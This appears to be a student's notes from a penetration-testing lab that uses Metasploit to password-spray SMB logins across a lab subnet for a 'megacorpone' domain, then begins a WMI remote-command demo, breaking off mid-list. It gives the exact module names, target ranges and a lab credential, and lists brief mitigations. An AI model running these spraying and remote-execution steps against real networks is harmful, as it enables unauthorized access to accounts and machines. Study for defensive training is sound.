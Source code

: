 We rescan the nmap and found another machine we can attack 

___
**Password spray**
Activity: password Spraying
Note: We are doing this because we already found their /etc/shadow/ already 

We are going to go into metasploit 
$msfconsole 

Now we are going to use the auxiltery scanner 
$use auxiliary/scanner/smb/smb_login
- We are scanning (for username and password to see if it successful)

Since we have tstark already from brute force activity 
$options
- We want to  see what we need to input 

set RHOST 172.22.117.0/24
- We are going to scan all network from tstark 
set SMBUser tstark
set SMBPASS Password!

Domain: megacorpone.local
set smbdomain megacorpone 

run 


We got 2 hits 
![[Brute force 1.jpg]]

![[smbattack.jpg]]
Mitigation: 
- Network Monitoring 
- password complex

go to WINDC01 Machine
try signing as 
tstark
Password!

Sign in locally
./tstark
password!

does not work so ./tstark does not work

try to sign into 
WINDC01 machine 

![[Unable to signin.jpg]]
Even though we were able to sign in through the SMB, we can not sign into the remotely 
- not able to sign in remote or local access 

____
Instructor Demo: WMI
msfconsole 
use auxiliary/scanner/smb/impacket/wmiexec
options
- command
	- set COMMAND whoami
- set smbdomain 
	- Megacorpone
- Rhosts
	- set RHOSTS 172.22.117.20
- smbuser
	- set smbuser tstark
- smbpass
